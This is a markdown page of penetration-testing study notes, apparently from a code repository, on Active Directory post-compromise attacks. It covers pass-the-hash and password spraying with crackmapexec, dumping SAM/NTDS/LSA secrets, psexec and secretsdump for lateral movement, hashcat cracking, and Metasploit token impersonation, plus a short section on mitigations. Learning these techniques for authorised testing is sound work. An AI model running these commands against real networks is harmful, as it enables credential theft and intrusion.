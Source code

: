 # Active Directory Post Compromise Attacks

---
## Pass the Hash/Password
---

> If able to crack password hash, or can dump SAM hashes, try to pass around network to check for access to other machines on network.

### use crackmapexec
- Pass the password
	- ` crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>`

- Pass the hash
	- ` crackmapexec smb <ip>CIDR> -u <user> -H <hash> --local-auth`
- Dump sam, ntds, lsa
	- ` crackmapexec smb <ip/CIDER> -u<user> -p <pass> -d <domain> --sam/--ntds/--lsa`

#### Local vs Domain pass spraying
- pass spray local not domain as domain accounts will get locked out where local will not

---
## Move Laterally
---
- If lateral access is found, can use psexec.py to gain shell on new machine
	` psexec.py <domain>/<user>:<password>@<ip> `

- next use secrets.py to dump sam on new machine
	- `secretsdump.py <domain>/<user>:<password>@<ip>`

secrets.py dumps sam hashes, lsa secrets and DPAPI keys

#### NTLM hash can be passed, NTLMV2 cannot
SAM = NTLM hash
crack with hashcat
	- `hashcat -m 1000 hashfile.txt wordlist.txt -O `

---
## Pass Attack Mitigations
---

- Limit account reuse
	- avoid re-using local admin password
	- disable guest and administrator accounts
	- limit who is a local admin (least privilege)

- use strong passwords
	- longer the better
	- avoid common words
	
- privilege access management
	- check out/in sensitvie accounts
	- auto rotate passwords on check out/in
	- limits pass attacks as passwords is constantly rotated

---
## Token Impersonation
---

- What is Token
	- Temp keys to access system/network without needing creds
	- similar to a cookie for the web

- Two types
	- Delegate, created for logging into machine or using RDP
	- Impersonate, "non interactive" such as attaching network drive

### Attack steps
- start metasploit `msfconsole` then use psexec ` use exploit/windows/smb/psexec`
- set options in psexec module then hit run
- `load incognito` to attempt token impersonation
- `list_tokens -u` list available tokens
- `impersonate_token <token name>` use "\\" to escape backslash i.e. domain\\user for token name domain\user


